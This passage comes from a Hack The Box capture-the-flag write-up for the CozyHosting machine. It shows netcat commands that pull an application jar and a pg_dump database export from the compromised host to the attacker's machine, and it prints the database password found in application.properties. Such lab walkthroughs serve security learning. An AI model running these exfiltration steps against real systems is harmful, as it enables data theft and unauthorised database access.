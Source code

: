 Let's download the file for further investigation
``` shell
# prepare download receiver
┌─[pk2codes@parrot]─[~/htb/boxes/CozyHosting]
└──╼ $nc -l -p 9999 > app.jar

# prepare download sender
app@cozyhosting:/app$ nc -w 3 10.10.16.23 9999 < cloudhosting-0.0.1.jar
```

#### Quick Analysis
* Spring Boot Application
* Server is running on postgresql

application.properties
``` properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

Interesting! We just found the database creds. 
#### Postqres Port Closed
In order to circumvent the annoying nc download, I checked the postgres port via nmap but it's closed.

``` shell
└──╼ $nmap 10.10.11.230 -p 5432
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-21 08:26 CEST
Nmap scan report for cozyhosting.htb (10.10.11.230)
Host is up (0.039s latency).

PORT     STATE  SERVICE
5432/tcp closed postgresql

```
#### Export db via reverse shell
Ok, so we just download it using netcat... first we export the data base using `pg_dump`:
``` shell
 pg_dump -p 5432 -d cozyhosting -h 127.0.0.1 -U postgres -W > /tmp/psqlexp.pgsql
 # pwVg&nvzAQ7XxR
```

#### download export
``` shell
┌─[✗]─[pk2codes@parrot]─[~/htb/boxes/CozyHosting]
└──╼ $nc -l -p 9999 > pqsqlexport.pgsql
```
